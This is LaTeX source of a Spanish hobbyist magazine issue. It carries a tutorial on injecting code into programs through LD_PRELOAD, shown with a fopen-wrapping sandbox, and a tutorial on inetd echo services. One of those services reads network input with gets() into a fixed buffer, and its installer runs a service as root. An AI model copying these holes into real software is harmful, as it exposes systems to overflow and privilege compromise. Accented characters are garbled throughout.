Recordaros, una vez m�s, que netcat es uno de esos programas que merece
la pena estudiar y con el que se pueden aprender unas cuantas cosas
sobre como desarrollar aplicaciones en red, si bien, el estilo del
c�digo es un poco para gustos.

\bigskip

\colorbox{excolor}{
\begin{minipage}{.9\linewidth}
{\bf\sf\Large LECTORES}
\vspace{1mm}
\hrule
\bigskip


Recordad que pod�is enviarnos vuestros experimentos con netcat, y los
m�s interesantes, curiosos y g�ays los publicaremos en el pr�ximo
n�mero. 

Todav�a somos pobres para hacer concursos hasta que consigamos
patrocinadores con pasta... Pero bueno, por lo que te ha costado esta
revista te puedes estirar un poco no?

Pod�is enviar vuestras propuestas a:

\bigskip

{\tt occams-razor@uvigo.es}

\bigskip

A domar esta mala bestia

\bigskip

\end{minipage}
}


\raggedcolumns
\pagebreak
\end{multicols}


\clearpage
\pagebreak

% Este fichero es parte del N�mero 1 de la Revista Occam's Razor
% Revista Occam's Razor N�mero 1
%
% (c) 2007, 2009, Occam's Razor.
%
% Esta obra est� bajo una licencia Reconocimiento 3.0 Espa�a de
% Creative Commons. Para ver una copia de esta licencia, visite
% http://creativecommons.org/licenses/by/3.0/es/ o envie una carta a
% Creative Commons, 171 Second Street, Suite 300, San Francisco,
% California 94105, USA. 

% Secci�n Reverso Tenebroso
%
% Incluye imagen del art�culo
\rput(2,-3.0){\resizebox{!}{4.5cm}{{\epsfbox{jeringuilla-2.eps}}}}

% -------------------------------------------------------------
% Cabecera
\msection{introcolor}{black}{0.28}{REVERSO TENEBROSO}

\begin{flushright}
\mtitle{12cm}{Inyecci�n de C�digo en Librer�as Din�micas}

\msubtitle{10cm}{Conoce los secretos de LD\_PRELOAD}

{\sf por Er ATS}

{\psset{linecolor=black,linestyle=dotted}\psline(-12,0)}

\end{flushright}

\vspace{2mm}
% -------------------------------------------------------------

\begin{multicols}{2}

% Definici�n de colores
% FIXME: La definici�n en portada.tex no propaga.
\definecolor{introcolor}{rgb}{0.6,0.7,0.3}
\definecolor{titlecolor}{rgb}{0.4,0.5,0.1}
\definecolor{excolor}{rgb}{0.8,0.8,0.8}

% Introducci�n
\colorbox{introcolor}{
\begin{minipage}{.9\linewidth}

{{\resizebox{!}{1.0cm}{E}}{n esta primera incursi�n en los entresijos
de la ingenier�a inversa, vamos a explorar una de las formas m�s
sencillas para la inyecci�n de c�digo. Dejando a un lado los usos
``curiosos'', la inyecci�n de c�digo en aplicaciones binarias nos
proporciona una potente herramienta para la depuraci�n o adaptaci�n
de aplicaciones de las cuales no disponemos de su c�digo fuente. 
}}

\end{minipage}
}

% Cuerpo del art�culo

\sectiontext{white}{black}{LIBRER�AS DIN�MICAS}


\vspace{2mm}

La mayor�a de las aplicaciones actuales utilizan lo que se conoce
como librer�as din�micas, hecho que les proporciona ciertas ventajas. 
En primer lugar los ejecutables son m�s peque�os ya que parte de 
su funcionalidad se a movido ha la librer�as. Las funcionalidades de la
librer�a pueden ser utilizadas por varias aplicaciones, de forma
que las actualizaciones de �stas se reflejan en varios ejecutables 
(frente a la actualizaci�n de cada ejecutable por separado).

Las aplicaciones que utilizan librer�as din�micas, mantienen una referencia
a las mismas, de forma que el cargador din�mico (ldd) pueda encontrarlas
cuando solicitamos la ejecuci�n de una aplicaci�n. Estas referencias se pueden obtener
utilizando el comando \texttt{ldd} que nos proporciona una salida como la siguiente:

{\scriptsize
\begin{verbatim}
$ ldd /bin/echo
        libc.so.6 => /lib/tls/libc.so.6 (0x4002b000)
        /lib/ld-linux.so.2 => /lib/ld-linux.so.2 (0x40000000)
$
\end{verbatim}
}


Como podemos ver, el comando \texttt{ldd} del ejemplo anterior, muestra la lista de librer�as 
din�micas utilizada por el programa \texttt{echo}. Por ahora no nos
interesa la informaci�n extra que proporciona \texttt{ldd}. S�lo nos interesa
saber que el programa depende de dos librer�as din�micas.

\sectiontext{white}{black}{PREPARANDO NUESTRO EJEMPLO}

Para poder trabajar en un entorno controlado, lo primero que vamos a hacer
es generar un sencillo programa de test y un par de librer�as din�micas
con las que trastear.

Para ello utilizaremos las autotools de GNU que nos simplifican la generaci�n
tanto de ejecutables como de librer�as. Creamos un directorio para nuestro
proyecto (por ejemplo injection) y escribimos (o copiamos :) nuestro minimalista
configure.ac (si estamos a la �ltima y ya no usamos aquellos .in del pasado).

\columnbreak

{\small
\begin{verbatim}
AC_INIT
AM_INIT_AUTOMAKE(injection, 0.0.1)

AM_CONFIG_HEADER(config.h)
AM_MAINTAINER_MODE

AC_PROG_CC
AC_HEADER_STDC()
AC_PROG_LIBTOOL

AC_OUTPUT(Makefile)
\end{verbatim}
}

Ahora solo tenemos que escribir el make file para el {\em automake} (Makefile.am),
que para nuestro caso ser� algo como esto:

{\small
\begin{verbatim}
lib_LTLIBRARIES=libinjection.la libinjection1.la

libinjection_la_SOURCES=injection.c
libinjection_la_LDFLAGS=-ldl

libinjection1_la_SOURCES=injection1.c
libinjection1_la_LDFLAGS=-ldl

CFLAGS+=-D_GNU_SOURCE

noinst_PROGRAMS=test
test_SOURCES=test.c
\end{verbatim}
}

\begin{entradilla}
{\em ``Es muy sencillo {\color{titlecolor}{crear librer�as din�micas}} utilizando la herramienta libtool''}
\end{entradilla}

Este makefile nos va a generar dos librer�as din�micas llamadas \texttt{libinjection.so} y
\texttt{libinjection1.so} respectivamente y un peque�o programa de test que el comando
\texttt{make install} nos instalar�.

Ahora solo nos queda ejecutar las autotools para conseguir un configure y poder compilar nuestro c�digo

{\small
\begin{verbatim}
aclocal
libtoolize --force --copy 
autoheader
automake --add-missing --copy --foreign --include-deps
autoconf
\end{verbatim}
}

Es habitual incluir los comandos anteriores en un shell script con nombre {\em bootstrap} y
tenerlo siempre a mano para ahorrarse este �ltimo paso, aunque hay
otras formas de proceder en las que no vamos a entrar. Ahora ya
estamos en condiciones de escribir nuestra peque�a librer�a. 

\ebOpage{introcolor}{0.28}{REVERSO TENEBROSO}

\rput(13,-22){\resizebox{!}{7cm}{{\epsfbox{publi03.eps}}}}

\sectiontext{white}{black}{LD\_PRELOAD}

Para comprender el siguiente ejemplo, primero debemos conocer el uso
de la variable de entorno \texttt{LD\_PRELOAD} que ser� la forma de
inyectar nuestro c�digo en la aplicaci�n.

La variable de entorno \texttt{LD\_PRELOAD} permite forzar la carga de ciertas
librer�as din�micas antes de que el programa a ejecutar se cargue en memoria. 
El hecho de cargar una librer�a din�mica antes que otra, implica que cualquier 
funci�n en la librer�a precargada se ejecutar� antes que su hom�nima en librer�as
cargadas posteriormente.

As�, si creamos una librer�a din�mica con nuevas versiones de las funciones en
una determina aplicaci�n, las funciones de nuestra librer�a sustituir�n a las del
programa consiguiendo ``inyectar'' c�digo arbitrario en el mismo. Ahora veremos todo
esto con un ejemplo que clarificar� m�s las cosas.

\sectiontext{white}{black}{MICRO-SANDBOX}

Los m�s antiguos del lugar recordar�n que los parques infantiles ten�a arena en el suelo,
sobre todo al final de los toboganes y otros elementos l�dicos que nos permit�an partirnos
la crisma al m�s m�nimo descuido. Normalmente, esa arena estaba en una ``caja'', bueno,
se ve�an una especie de caj�n semi enterrado destinado a mantener la arena en su sitio.

Bien, pues un ``sandbox'' es una de esas cajas de arena de los antiguos parques infantiles,
un dispositivo destinado a que un programa no se ``da�e'' o m�s bien, que el programa
no da�e nada en el sistema. Quiz�s el sandbox m�s conocido es el que se monta con el 
comando \texttt{chroot}, junto al incluido en la m�quina virtual Java que se populariz� con
el uso de applets en un entorno inseguro como Internet.

\begin{entradilla}
{\em ``{\color{titlecolor}{Un sandbox proporciona un entorno seguro}} para la ejecuci�n de programas''}
\end{entradilla}

Para ilustrar el uso de \texttt{LD\_PRELOAD} vamos a montar un micro-sandbox para evitar
que cualquier programa escriba datos en el directorio \texttt{/tmp}. S�, esto es un poco
absurdo, pero as� nos sale un ejemplo muy sencillo.

Para nuestro ejemplo, simplemente vamos a escribir una versi�n de la funci�n \texttt{fopen}
que compruebe el nombre del fichero y en el caso de tratarse del directorio tmp retorne un
error.

\sectiontext{white}{black}{UN NUEVO FOPEN}

Editamos nuestro fichero injector.c y a�adimos el c�digo siguiente:

\columnbreak

\lstset{language=C,frame=tb,framesep=5pt,basicstyle=\small}   

\begin{lstlisting}
#include <stdio.h>
#include <string.h>
#include <dlfcn.h>

FILE*
fopen (const char *path, const char *mode)
{
FILE* (*real_fopen)(const char*, const char*);

printf ("fopen_wrapper: Entrando\n");
if (strncmp (path, "/tmp", 4) == 0)
  {
    fprintf (stderr, "fopen_wrapper:"
             "Acceso Denegado '%s'\n", path);
    return NULL;
  }
/* Consigue el puntero al fopen real */
real_fopen = dlsym (RTLD_NEXT, "fopen");
return real_fopen (path, mode);
}
\end{lstlisting}


Lo primero que observamos es que la declaraci�n de nuestra funci�n es exactamente
la misma que la de la funci�n de la librer�a C est�ndar \texttt{fopen}. Las primeras l�neas de la
funci�n llevan a cabo la comprobaci�n del nombre del fichero que queremos abrir y
en caso de que sea positiva devuelve el valor NULL, igual que la funci�n \texttt{fopen}
original.

Si el directorio al que pretendemos acceder est� permitido, entonces tenemos que
obtener la funci�n \texttt{fopen} real y ejecutarla, devolviendo el stream adecuado
a la aplicaci�n principal.

Para ello, hemos declarado un puntero a funci�n con un prototipo compatible con 
nuestro \texttt{fopen} y hemos usado la funci�n \texttt{dlsym} para obtener el puntero
a la funci�n \texttt{fopen} ``original''. Realmente no estamos obteniendo el puntero al
\texttt{fopen} original, sino al siguiente \texttt{fopen} disponible (par�metro
\texttt{RTLD\_NEXT}. Esto permite enlazar varios {\em wrappers} a la funci�n de inter�s.

Para comprobar este �ltimo comportamiento generamos el fichero
injector1.c id�ntico al primero, pero modificando el mensaje del
primer printf para que podamos identificar que el programa a pasado
por ese punto. Eso os lo dejamos a vosotros. 

\raggedcolumns
\ebOpage{introcolor}{0.28}{REVERSO TENEBROSO}

\sectiontext{white}{black}{UN PROGRAMA DE EJEMPLO}

Ahora solo tenemos que escribir un sencillo programa de ejemplo que
use la funci�n fopen para probar nuestro micro-sandbox. Algo como
esto: 

\lstset{language=C,frame=tb,framesep=5pt,basicstyle=\small}   
\begin{lstlisting}
#include <stdio.h>

int
test (const char *fname)
{
FILE *f;

if ((f = fopen (fname, "wt")) == NULL)
  fprintf (stderr, 
       "No puedo abrir fichero '%s'\n", 
        fname);
else
  {
    fprintf (f, "Hola Mundo!!!\n");
    fclose (f);
  }
}

int
main ()
{
  test ("/tmp/preload_test.test");
  test ("preload_test.test");
  return 0;

}
\end{lstlisting}

Como podemos comprobar el programa proporciona una funci�n que intenta abrir un fichero
y en caso de que sea posible, lo sustituye por la cadena ``Hola Mundo!!!''.

\begin{entradilla}
{\em ``{\color{titlecolor}{Con LD\_PRELOAD podemos modificar funciones}} en librer�as din�micas''}
\end{entradilla}


Compilamos con el t�pico {\tt (./configure \&\& make)} y veamos el resultado.

\sectiontext{white}{black}{NADA DE ESCRIBIR EN tmp}

Lo primero que hacemos es ejecutar nuestro programa de test
normalmente y comprobar que se genera un fichero en /tmp y otro en
nuestro directorio actual.  

{\small
\begin{verbatim}
$ ./test
$ ls /tmp
preload_test.test
\end{verbatim}
}

Ahora probemos nuestro micro-sandbox. No olvid�is borrar el fichero de ejemplo de /tmp.

{\scriptsize
\begin{verbatim}
$ rm /tmp/preload_test.test
$ LD_PRELOAD=.libs/libinjector.so ./test
fopen_wrapper: Entrando
fopen_wrapper: Accesso Denegado a '/tmp/preload_test.test'
No puedo abrir fichero '/tmp/preload_test.test'
fopen_wrapper: Entrando
\end{verbatim}
}
%$

Estupendo!!!. Hemos visto nuestras l�neas de traza en la librer�a y el mensaje
de acceso denegado al intentar escribir en /tmp. Comprobemos que no se ha generado
ning�n fichero.... somos la bomba!

Lo del \texttt{.libs} es porque ese es el lugar en el que libtool genera las librer�as.
Hasta que no se ejecute un \texttt{make install} las librer�as no pasan al directorio
apropiado (/usr/lib o /usr/local/lib).

Ahora vamos a ver si nuestra cadena de wrappers funciona correctamente.

{\scriptsize
\begin{verbatim}
$ rm /tmp/preload_test.test
$ LD_PRELOAD=.libs/libinjector.so:.libs/libinjector1.so ./test
fopen_wrapper: Entrando
fopen_wrapper: Accesso Denegado a '/tmp/preload_test.test'
No puedo abrir fichero '/tmp/preload_test.test'
fopen_wrapper: Entrando
fopen_wrapper1: Entrando
\end{verbatim}
}
%$

Vemos que, en el caso de que todo sea correcto, adem�s pasamos por la segunda librer�a, como demuestra la �ltima l�nea del ejemplo anterior. Cuando se intenta acceder al directorio /tmp, la primera librer�a ya bloquea el progreso y nunca llegamos a la segunda, por eso aparece un solo mensaje de la segunda librer�a.

\sectiontext{white}{black}{OTRAS APLICACIONES}

Como os pod�is imaginar, los usos de \texttt{LD\_PRELOAD} son ilimitados. Algunos ejemplos podr�an ser... sandbox... 1, 2, 3, responda otra vez:

\begin{itemize}
\item Sandboxes
\item Cifrado/compresi�n/manipulaci�n en general de ficheros
\item Test Unitarios/Mock Objects
\item Programaci�n por Contrato
\item Programaci�n Orientada a Aspectos
\item Depuraci�n
\item Paralelizaci�n de Tareas
\end{itemize}

Con todo lo que hemos comentado hasta el momento, pod�is investigar
por vosotros mismos cualquiera de estas aplicaciones, y seguro que en
el trabajo diario aparecer�n posibles usos de esta t�cnica. 

\sectiontext{white}{black}{RESUMIENDO...}

En este peque�o art�culo hemos visto como utilizar la variable de
entorno LD\_PRELOAD para modificar el comportamiento de una librer�a
din�mica. Hemos visto como crear un sencillo {\em ``sandbox''} y
apuntado algunas ideas de como aplicar lo que hemos aprendido. 

No repar�is en enviarnos cualquier aplicaci�n g�ay. No desesper�is, en
pr�ximas entregas seremos m�s malos :* 


\end{multicols}


% Este fichero es parte del N�mero 1 de la Revista Occam's Razor
% Revista Occam's Razor N�mero 1
%
% (c) 2007, Occam's Razor.
% Contenido disponible bajo licencia Reconocimiento-No comercial-Compartir bajo la misma licencia 2.5 Espa�a de Creative Commons. Para ver una copia de esta licencia, visite http://creativecommons.org/licenses/by-nc-sa/2.5/es/ o envie una carta a Creative Commons, 559 Nathan Abbott Way, Stanford, California 94305, USA.
% 

% Seccion M� R�pido
%
% Incluye imagen del art�culo
\rput(2,-3.0){\resizebox{!}{4.5cm}{{\epsfbox{mascara.eps}}}}

% -----------------------------------------------------
% Cabecera
\msection{introcolor}{black}{0.18}{M� R�PIDO}

\begin{flushright}
\mtitle{12cm}{Crea tu propio Servicio de Internet}

\msubtitle{10cm}{Exorcizando al superdemonio inetd}

{\sf por Un Servidor}

{\psset{linecolor=black,linestyle=dotted}\psline(-12,0)}

\end{flushright}

\vspace{2mm}
% -----------------------------------------------------

\begin{multicols}{2}

% Definici�n de colores
% FIXME: La definici�n en portada.tex no propaga.
\definecolor{introcolor}{rgb}{0.6,0.7,0.3}
\definecolor{titlecolor}{rgb}{0.4,0.5,0.1}
\definecolor{excolor}{rgb}{0.8,0.8,0.8}

% Introducci�n
\colorbox{introcolor}{
\begin{minipage}{.9\linewidth}

{{\resizebox{!}{1.0cm}{Q}}{ui�n no ha necesitado alguna vez escribir su propio servidor?.
Si tu respuesta es ``yo'', no desesperes, ya te tocar�. Sin embargo,
si solo necesitas un servicio muy simple, puede que no necesites
v�rtelas con los {\em sockets} o cosas peores. En este art�culo te
descubrimos como utilizar el {\em superdemonio inetd} para crear
servicios de una forma muy r�pida, sencilla y ocupando muy poco. 
}}

\end{minipage}
}

% Cuerpo del art�culo

\sectiontext{white}{black}{inetd. EL SUPERDEMONIO}
\vspace{2mm}

Os preguntareis... �qu� es eso del {\em superdemonio}?. Pues como su
propio nombre indica, se trata de un servicio capaz de proporcionar
otros servicios. Bueno, su nombre sugiere m�s bien una bestia
pestilente con cuernos y rabo de gran tama�o, la bestia se entiende,
pero esa frase quedaba muy bien ah�. 

\begin{entradilla}
{\em ``El superdemonio inetd nos permite crear servicios muy r�pidamente''}
\end{entradilla}

Este demonio, cuando es lanzado, lee el fichero de configuraci�n que
se encuentra en {\tt /etc/inetd.conf}, el cual le proporciona
informaci�n sobre los servicios que va a gestionar. 

Una entrada t�pica de este fichero es tal cual as�:

{\scriptsize
\begin{verbatim}
ident   stream  tcp  wait  identd  /usr/sbin/identd    identd
\end{verbatim}
}

Vamos a ver que significa cada una de las columnas de esta l�nea.

\begin{itemize}
\item La columna 1 indica el puerto en el que se instalar� el
servicio. En este caso, se est� utilizando un nombre de servicio que
el programa resolver� utilizando el fichero /etc/services, pero
nosotros utilizaremos simplemente un n�mero. 
\item Las dos columnas siguientes nos permiten especificar el tipo de
socket y el protocolo a utilizar... Como no estamos interesados en los
sockets por el momento, las dejaremos como est�n. 
\item La siguiente columna solo tiene sentido para sockets del tipo
{\em datagrama}, los que se utilizan t�picamente con el protocolo UDP,
as� que tambi�n la vamos a obviar en este art�culo (esta es la secci�n
m� r�pido... que esperabas?) 
\item La siguiente columna especifica el usuario con el que se
ejecutar� el servicio. nobody es una buena elecci�n 
\item Finalmente, las dos �ltimas columnas indican el programa que se
ejecutar� para proporcionar el servicio y los par�metros de
este. Recordad que el primer par�metro de cualquier programa es el
nombre del programa, as� que como m�nimo siempre tendremos ese
par�metro, como se puede apreciar en el ejemplo. 
\end{itemize}

Vale, todo esto est� muy bien, pero c�mo escribo mi servicio. Pues de
la forma en la que se hacen las cosas en UNIX, con {\em stdin} y {\em
stdout}. 

\sectiontext{white}{black}{stdin Y stdout}
\vspace{2mm}

Aunque podr�an parecer dos engendros gemelos del inframundo, amiguitos
del superdemonio inetd, realmente se trata de la entrada y salida
est�ndar. La entrada/salida est�ndar por defecto se asocia a la
consola, as�, la entrada est�ndar se asocia al teclado, mientras que
la salida est�ndar a la pantalla de nuestro terminal. 

Lo que sucede con estos dos dispositivos es que pueden ser
redireccionados, es decir, cualquiera de ellos puede ser sustituido
por cualquier otro y esto es precisamente lo que hace inetd. Por una
parte, inetd, redirecciona la conexi�n de red entrante a la entrada
est�ndar del proceso que lanza (las �ltimas columnas del fichero de
configuraci�n), a la vez que redirecciona la salida est�ndar de ese
proceso a la conexi�n de red. 

\begin{entradilla}
{\em ``inetd se comunica con los servicios utilizando stdin y stdout''}
\end{entradilla}


El resultado de todo esto es que cualquier cosa que se env�e por la
red, se leer� como si se tratara de una entrada por teclado, y todo lo
que enviemos a la pantalla, se enviar� por la red en lugar de
mostrarlo en el terminal. 

\raggedcolumns
%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%
% End Of Page + Begin Of Page
\ebOpage{introcolor}{0.18}{M� R�PIDO}

Para ilustrar todo esto vamos a implementar el cl�sico servidor {\em
echo} que repite todo lo que le decimos. Lo interesante del servidor
de eco es que se comprueba tanto la transmisi�n como la recepci�n de
datos y adem�s se verifica que no se pierden datos en ninguno de los
dos caminos. 


\sectiontext{white}{black}{UN SERVIDOR DE echo}
\vspace{2mm}

Nuestra primera versi�n del servidor de echo la vamos a hacer en
lenguaje C... que nadie se asuste, es un programa tan tonto que no
requiere ni explicaci�n, aunque la vamos a dar. El programa hace una
lectura de la entrada est�ndar, y lo que lee, lo envi� a la salida
est�ndar. 

\lstset{language=C,frame=tb,framesep=5pt,basicstyle=\small}   
\begin{lstlisting}
#include <stdio.h>

int main() {
  char buffer[1024];
  gets (buffer);
  printf ("%s", buffer);
}
\end{lstlisting}



Ahora podemos compilar el programa, utilizando la herramienta make. Si
hemos llamado a nuestro servicio {\em echo.c}, ejecutamos: 

{\small
\begin{verbatim}
occam@razor:/tmp$ make echo
cc     echo.c   -o echo
/tmp/ccbhjBK1.o(.text+0x1d): In function `main':
: warning: the `gets' function is dangerous 
and should not be used.
\end{verbatim}
}
%$

Irresponsablemente obviamos el warnning que obtenemos en la
compilaci�n (muy pronto carecer� de inter�s), cambiamos el propietario
de nuestro servicio e informamos a inetd del nuevo servicio que
queremos que gestione, tras lo cual lo reiniciamos para que se entere.  

\begin{entradilla} 
{\em ``En apenas cuatro l�neas de c�digo podemos programar un servidor de ECHO''} 
\end{entradilla} 

{\small
\begin{verbatim}
occam@razor:tmp$ chown nobody:nobody /tmp/echo
occam@razor:tmp$ echo "6666 stream tcp wait \
> nobody /tmp/echo echo" >> /etc/inetd.conf
occam@razor:tmp$ /etc/init.d/inetd restart
\end{verbatim}
}
%$

S�, hay formas m�s elegantes de reiniciar inetd, pero eso queda para
los lectores del {\tt man} :).

Ahora ya podemos probar nuestro nuevo servicio

{\small
\begin{verbatim}
occam@razor:tmp$ telnet localhost 6666
Hola Mundo!!!
Hola Mundo!!!
occam@razor:tmp$ 
\end{verbatim}
}

%$

Ingre�ble, hemos escrito nuestro primer servicio unix sin necesidad de saber lo que es un socket... tranquilos que lo sabremos en pr�ximas entregas, pero por ahora mola no?.

\sectiontext{white}{black}{DEJANDO EL SERVIDOR DECENTE}
\vspace{2mm}

Nuestra primera versi�n del servidor, generaba un feo warnning que
adem�s es bastante peligroso, pero resultaba m�s sencillo ver como la
entrada y salida est�ndar se corresponden por defecto con el teclado
y la consola. 

Vamos a reescribir nuestro servidor de una forma m�s correcta. El
programa hace exactamente lo mismo, pero ahora accedemos directamente
a los descriptores de fichero de la entrada y salida
est�ndar. Ve�moslo: 

\lstset{language=C,frame=tb,framesep=5pt,basicstyle=\small}   
\begin{lstlisting}
#include <unistd.h>

int 
main(int argc, char *argv[])
{
  char buffer[1024];
  int  len;

  len = read (0, buffer, 1024);
  write (1, buffer, len);

  return 0;
}
\end{lstlisting}


Como podemos ver en este ejemplo, leer del descriptor de ficheros 0 es
equivalente a un gets y escribir en el descriptor de fichero 1 es lo
mismo que un printf.  

\sectiontext{white}{black}{CUESTI�N DE TAMA�O}
\vspace{2mm}

El servidor de echo que acabamos de escribir, ocupa unos 12Kb, los
cuales podemos dejar en 3Kb utilizando el comando strip: 

{\small
\begin{verbatim}
occam@razor:tmp$ ls -lh
total 12K
-rwxr-xr-x  1 edma edma  12K Apr 20 20:48 echo
occam@razor:tmp$ strip echo; ls -lh
total 3K
-rwxr-xr-x  1 edma edma 3.0K Apr 20 20:49 echo
\end{verbatim}
}

Un tama�o rid�culo para los tiempos que corren, pero y si lo
pudi�ramos dejar en unos poco bytes, por ejemplo sustituyendo nuestro
ejecutable por un peque�o script perl como este: 

\lstset{language=Perl,frame=tb,framesep=5pt,basicstyle=\small}   
\begin{lstlisting}
#!/usr/bin/perl

$|=1;
$_ = <>; print;
\end{lstlisting}


Ahora nuestro servicio ocupar�a s�lo:

{\small
\begin{verbatim}
occam@razor:tmp$ ls -lh
total 38
-rw-r--r--  1 edma edma   38 Apr 20 20:52 echo2
occam@razor:tmp$ 
\end{verbatim}
}

%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%
%\raggedcolumns

\ebOpage{introcolor}{0.18}{M� R�PIDO}
.... 38 bytes ..... ingre�ble!!!!!

Estos 38 bytes son ficticios, ya que para poder ejecutar este
servidor, necesitamos tener el interprete de Perl instalado que ocupa
bastante m�s que nuestros 3Kbytes iniciales. Sin embargo, normalmente
si que tenemos una shell.... uhmmm!!!! 

A partir de aqu� ya pod�is hacer vuestras propias pruebas, aunque para
terminar vamos a a�adir un par de secciones geek para flipados :) 


\sectiontext{white}{black}{GEEK ZONE 1: UN INSTALADOR}
\vspace{2mm}

Ahora que tenemos nuestro servidor preparado, que tal si preparamos un instalador?... podr�amos usar InstallShield(TM) o similares, pero como somos unos geeks vamos a hacer un script shell para instalar nuestro servicio.

El script es el siguiente:


\lstset{language=Bash,frame=tb,framesep=5pt,basicstyle=\small}   
\begin{lstlisting}
#!/bin/sh
SERVICE_PATH=$HOME

# Crea el fichero fuente
cat << EOP > $SERVICE_PATH/echo_service.c
#include <unistd.h>

int main () {
  char buffer[1024];
  int  len;

  len = read (0, buffer, 1024);
  write (1, buffer, len);

  return 0;
}
EOP

# Lo compila y borra el fichero fuente
gcc $SERVICE_PATH/echo_service.c \
    -o $SERVICE_PATH/echo_service
rm $SERVICE_PATH/echo_service.c

# Configuramos inetd
echo "8000 stream tcp nowait root \
$SERVICE_PATH/echo_service" >> \
/etc/inetd.conf

# Reinicia inetd para activar servicio
/etc/init.d/inetd restart
\end{lstlisting}


Como pod�is ver, el script contiene el c�digo fuente del servicio, no
el ejecutable. El script crea el fichero fuente en un directorio, lo
compila y lo instala.... �qu� ganamos con esto?... pues que nuestro
servicio es ahora multiplataforma. Podemos instalarlo en un procesador
Intel, en un SPARC en un PA-RISC, nos da igual, el ejecutable se
genera en la plataforma de destino. 

\sectiontext{white}{black}{GEEK ZONE 2: VERSION M�S PEQUE�A}
\vspace{2mm}

Para terminar con las geekadas... que os parecer�a hacer nuestro
servidor m�s peque�o?... parece dif�cil no?, pero tenemos un par de
opciones m�s, como por ejemplo, reimplementarlo en ensamblador. 

Nuestro servicio de echo querar�a tal que as�:

\lstset{language=[x86masm]Assembler,frame=tb,framesep=5pt,basicstyle=\small}   
\begin{lstlisting}
;; Servicio ECHO para usar con inetd
;; (c) Occam's Razor, 2006
;; 
;; compilar con:
;;   nasm -f elf echo.asm
;;   ld -s -o echo echo.o
	
section	.text
  global _start   ; Requerido por el linker (ld)

_start:           ; Punto de entrada al programa
  ;; Leer Entrada
  mov  edx, 1024
  mov  ecx, bread
  xor  ebx,ebx    ; stdin -> 0
  mov  eax, 3     ; Llamada al sistema read 
  int  0x80

  ;; Escribir salida
  inc   ebx       ; stdout -> 1
  mov   eax, 4    ; Llamada al sistema write
  int   0x80

  mov   eax,1     ; Llamada al sistema exit
  int   0x80          
	
;; Secci�n de Datos no Inicializados
section .bss
  bread   resb   1024 ; unsigned char bread[1024];
\end{lstlisting}

El c�digo fuente es un poco m�s largo, pero veamos que pasa al compilarlo.

\begin{verbatim}
occam@razor:tmp$ nasm -f elf echo.asm
occam@razor:tmp$ ld -s -o echo echo.o
occam@razor:tmp$ ls -lh
total 428
-rwxr-xr-x  1 edma edma  428 Apr 20 21:05 echo
occam@razor:tmp$
\end{verbatim} 

No son los 38 bytes de la versi�n Perl, pero no necesitamos ning�n
interprete instalado en el sistema.... Mooolaaaa!!! 

\sectiontext{white}{black}{EN EL PR�XIMO N�MERO}
\vspace{2mm}

Esto ha sido todo en esta entrega, en el pr�ximo n�mero, s� veremos
como montar un servicio completo con sus sockets y sus cosas. Por
ahora, tenemos material para ir haciendo cosillas.  

Hasta la pr�xima entrega!.

\raggedcolumns
\eOpage % End Of Page


% Este fichero es parte del N�mero 1 de la Revista Occam's Razor
% Revista Occam's Razor N�mero 1
%
% (c) 2007, Occam's Razor.
% Contenido disponible bajo licencia Reconocimiento-No comercial-Compartir bajo la misma licencia 2.5 Espa�a de Creative Commons. Para ver una copia de esta licencia, visite http://creativecommons.org/licenses/by-nc-sa/2.5/es/ o envie una carta a Creative Commons, 559 Nathan Abbott Way, Stanford, California 94305, USA.
% 

% Secci�n en la Pr�ctica
%
% Incluye imagenes del art�culo
\rput(-1,-5){\resizebox{!}{9cm}{{\epsfbox{Rack.eps}}}}
\rput(12,-10){\resizebox{!}{4cm}{{\epsfbox{1U-computer.eps}}}}
\rput(12,-23){\resizebox{!}{6cm}{{\epsfbox{subrack-iac-c915a.eps}}}}

% -----------------------------------------------------------
% Cabecera
\begin{flushright}
\msection{introcolor}{black}{0.22}{EN LA PR�CTICA}

\mtitle{6cm}{Eligiendo Ordenador}

\msubtitle{7cm}{M�s all� de la torre y el port�til}

{\sf por Tony Cassette}

{\psset{linecolor=black,linestyle=dotted}\psline(-10,0)}

\end{flushright}

\vspace{2mm}
% -----------------------------------------------------------

\begin{multicols}{2}

\intro{introcolor}{E}{n general, se cree que un ordenador puede ser
una torre (con sus distintas variantes), un {\em desktop} o un
port�til. Sin embargo, el mundo esta lleno de ordenadores con factores
de forma muy diferentes, m�s adecuados para unas u otras soluciones. En
este art�culo os descubriremos algunos de los m�s utilizados.
}

\vspace{4mm}

\sectiontext{white}{black}{ENTORNOS INDUSTRIALES. RACKS}

Cuando nos alejamos de las oficinas y nos adentramos en entornos m�s
industriales o en general en soluciones m�s espec�ficas, los
ordenadores raramente est�n solos. En una planta industrial, el
ordenador controla la l�nea de montaje a trav�s de equipos el�ctricos
adicionales. En una compa��a de telecomunicaciones, el ordenador
controla las l�neas telef�nicas que llegan a la centralita o en un
banco de pruebas, el ordenador controla distinta instrumentaci�n con
la que realizar las medidas necesarias para llevar a cabo sus tests. 

En todos estos casos, los ordenadores, junto con todo eso que los
rodea y que ellos debe controlar, se suelen montar en lo que se llama un
rack. Un rack no es otra cosa que un armario dise�ado para albergar
distintos equipos de una forma estable, compacta y s�lida.

Los racks utilizados normalmente tienen un ancho est�ndar de 19"
(pulgadas) y es normal que los fabricantes de equipos distribuyan
modelos para su montaje en estos racks de 19" (normalmente referidos
en sus cat�logos como ``rack mounted'').  

Estos racks se dividen verticalmente en lo que se llama una ``U'',
aproximadamente 2.45", y los equipos que se montan en los racks se
caracterizan por el n�mero de Us que ocupan en el rack, es decir, por
el espacio vertical que ocupan. 

A la hora de montar un ordenador en un rack, disponemos de varias posibilidades.

\begin{itemize}
\item Ordenadores para montaje en rack
\item Uso de un subrack
\end{itemize}


\sectiontext{white}{black}{RACK MOUNTED COMPUTERS}

Como dec�amos podemos encontrar ordenadores especialmente dise�ados
para ser montados en racks de 19" en varios tama�os, siendo los m�s
habituales los de 1 o 2 Us. 

Esta soluci�n es com�n, por ejemplo, en instalaciones que involucran a
muchos ordenadores como sucede en las empresas de hosting/housing o en
los clusters. Como nos podemos imaginar, en un espacio bastante
reducido podemos disponer varios ordenadores de una forma
ordenada. Por ejemplo, un rack de 18 Us tiene una altura de poco m�s
de un metro, utilizando ordenadores de 1 U podremos meter 18
ordenadores en ese rack. 

\vspace{3cm}

\sectiontext{white}{black}{SUB-RACKS Y BUSES ESPECIALES}

